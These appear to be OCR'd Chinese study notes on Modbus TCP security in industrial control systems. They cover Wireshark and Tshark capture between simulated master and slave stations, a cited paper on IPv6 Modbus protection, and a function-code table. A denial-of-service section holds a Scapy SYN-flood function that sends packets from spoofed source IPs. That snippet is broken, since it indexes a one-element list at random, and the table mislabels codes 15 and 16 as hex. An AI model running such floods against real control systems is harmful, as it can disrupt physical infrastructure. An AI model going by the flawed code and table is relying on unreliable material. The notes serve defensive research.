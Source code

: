 

##### 如何采集

通过旁路部署的数据报采集程序捕获MTU和RTU之间的所有数据报，软件：wireshark

旁路实现：光纤分光？



##### 5.1 工控IPv6的Modbus_TCP协议安全技术防护研究_陈鑫龙

仿真，模拟正常通信：主站MTU模拟器Modbus Poll，从站RTU模拟器Modbus Slave

先攻下MTU

Scapy编写攻击代码：篡改功能码、寄存器地址；

<img src="202204/pic/ModbusTCP报文.png" style="zoom:60%;" />

拒绝服务攻击

```python
def synFlood(targetIP,targetPort):
    srcIPList=[100]# 生成多个不同的源IP
    for srcPort in range(1024,65535):# source port
        srcIpIndex=random.randrange(100)
        ipPacket=IP(src=srcIPList[srcIpIndex],dst=targetIP)
        tcpPacket=TCP(sport=srcPort,dport=targetPort)
        totalPacket=ipPacket/tcpPacket# 合成IP数据报
        send(totalPacket)
```



采集：Wireshark抓包，Tshark只捕获包中具体字段

字段  解释 
ipv6.plen  除 IPv6 基本报头外其它部分的长度 
ipv6.nxt  标识下一个报头头部的类型 
ipv6.hlim  指定报文可以有效转发的次数 
ipv6.src_add  源 IPv6 地址 
modbus.fun_code  Modbus 协议功能码。 
modbus.regnum  Modbus 协议寄存器地址。



------

### 4/29

#### 1.熟悉modbus poll和 modbus slave，在本地将两者联通

功能码：

|                          | 功能码 | 功能         |
| ------------------------ | ------ | ------------ |
| READ_COILS               | H01    | 读线圈       |
| READ_DISCRETE_INPUTS     | H02    | 读离散输入   |
| READ_HOLDING_REGISTERS   | H03    | 读保持寄存器 |
| READ_INPUT_REGISTERS     | H04    | 读输入寄存器 |
| WRITE_SINGLE_COIL        | H05    | 写单一线圈   |
| WRITE_SINGLE_REGISTER    | H06    | 写单一寄存器 |
| WRITE_MULTIPLE_COILS     | H15    | 写多个线圈   |
| WRITE_MULTIPLE_REGISTERS | H16    | 写多寄存器   |
